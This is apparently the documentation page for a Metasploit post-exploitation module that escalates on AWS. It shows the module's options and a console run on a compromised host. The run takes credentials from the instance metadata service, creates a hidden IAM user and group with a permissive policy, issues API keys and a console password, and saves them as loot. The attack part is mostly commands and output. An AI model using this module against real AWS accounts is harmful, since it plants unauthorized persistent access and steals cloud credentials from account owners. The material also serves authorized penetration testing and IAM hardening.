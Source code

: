 ## Options

By default the module will:

* create a randomly named IAM user and group
* generate API Keys and User password for after  

```
msf exploit(sshexec) > use post/multi/escalate/aws_create_iam_user
msf post(aws_create_iam_user) > show options

Module options (post/multi/escalate/aws_create_iam_user):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   AccessKeyId                       no        AWS access key
   CREATE_API       true             yes       Add access key ID and secret access key to account (API, CLI, and SDK access)
   CREATE_CONSOLE   true             yes       Create an account with a password for accessing the AWS management console
   IAM_GROUPNAME                     no        Name of the group to be created (leave empty or unset to use a random name)
   IAM_USERNAME                      no        Name of the user to be created (leave empty or unset to use a random name)
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   SESSION          1                yes       The session to run this module on.
   SecretAccessKey                   no        AWS secret key
   Token                             no        AWS session token

```

## Overly Permissive Instance Profile

Here we are assuming that we have taken over a host having an instance profile with
overly permissive access. Once a session is established, we can load
`aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1` and run the exploit.

```
msf post(aws_create_iam_user) > run

[*] 169.254.169.254 - looking for creds...
[*] Creating user: sLbcBX0DckwhCVge
[*] Creating group: sLbcBX0DckwhCVge
[*] Creating group policy
[*] Adding user (sLbcBX0DckwhCVge) to group: sLbcBX0DckwhCVge
[*] Creating API Keys for sLbcBX0DckwhCVge
[*] Creating password for sLbcBX0DckwhCVge
[-] Password does not conform to the account password policy.
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
sLbcVgeBX0DckwhC  sLbcVgeBX0DckwhC  jhsdlfjkhalkjdfhalskdhfjalsjkakhksdfhlah  AKIAAKIAAKIAAKIAAKIA  OS4pyRLbmGtTR3ok  097986286576       

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://Account_ID.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /home/pwner/.msf4/loot/20161121175902_default_52.1.2.3_AKIA_881948.txt
[*] Post module execution completed
```